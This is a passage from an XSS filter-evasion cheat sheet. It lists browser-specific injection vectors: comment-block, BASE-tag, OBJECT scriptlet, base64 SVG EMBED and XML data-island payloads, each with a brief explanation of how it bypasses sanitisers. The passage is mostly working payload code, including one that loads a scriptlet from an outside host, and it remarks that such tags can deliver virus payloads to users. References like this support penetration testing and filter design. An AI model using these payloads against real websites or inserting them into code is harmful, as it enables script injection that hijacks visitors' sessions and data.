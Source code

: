 ### Downlevel-Hidden Block 
Only works on the IE rendering engine - Trident. Some websites consider anything inside a comment block to be safe and therefore does not need
to be removed, which allows our XSS vector to exist. Or the system might try to add comment tags around something in a vain attempt to render it
harmless. As we can see, that probably wouldn\'t do the job: 
```
     <!--[if gte IE 4]>
    <SCRIPT>alert('XSS');</SCRIPT>     <![endif]-->
```
 
### BASE Tag 
(Works on IE in safe mode) This attack needs the `//` to comment out the next characters so you won\'t get a JavaScript error and your XSS tag
will render. Also, this relies on the fact that many websites uses dynamically placed images like `images/image.jpg` rather than full
paths. If the path includes a leading forward slash like `/images/image.jpg`, you can remove one slash from this vector (as long
as there are two to begin the comment this will work): 
```
     <BASE HREF="javascript:alert('XSS');//">
```
 
### OBJECT Tag 
If the system allows objects, you can also inject virus payloads that can infect the users, etc with the APPLET tag. The linked file is
actually an HTML file that can contain your XSS: 
```
     <OBJECT TYPE="text/x-scriptlet" DATA="http://xss.rocks/scriptlet.html"></OBJECT>
```
 
### EMBED SVG Which Contains XSS Vector 
This attack only works in Firefox: 
```
     <EMBED SRC="data:image/svg+xml;base64,PHN2ZyB4bWxuczpzdmc9Imh0dH A6Ly93d3cudzMub3JnLzIwMDAvc3ZnIiB4bWxucz0iaHR0cDovL3d3dy53My5vcmcv MjAwMC9zdmciIHhtbG5zOnhsaW5rPSJodHRwOi8vd3d3LnczLm9yZy8xOTk5L3hs aW5rIiB2ZXJzaW9uPSIxLjAiIHg9IjAiIHk9IjAiIHdpZHRoPSIxOTQiIGhlaWdodD0iMjAw IiBpZD0ieHNzIj48c2NyaXB0IHR5cGU9InRleHQvZWNtYXNjcmlwdCI+YWxlcnQoIlh TUyIpOzwvc2NyaXB0Pjwvc3ZnPg==" type="image/svg+xml" AllowScriptAccess="always"></EMBED>
```
 
(Thanks to nEUrOO for this one) 
### XML Data Island with CDATA Obfuscation 
This XSS attack works only in IE: 
```
     <XML ID="xss"><I><B><IMG SRC="javas<!-- -->cript:alert('XSS')"></B></I></XML>
    <SPAN DATASRC="#xss" DATAFLD="B" DATAFORMATAS="HTML"></SPAN> 
```
 ### Locally hosted XML with embedded JavaScript that is generated using an XML data island
 This attack is nearly the same as above, but instead it refers to a
locally hosted (on the same server) XML file that will hold your XSS vector. You can see the result here:
 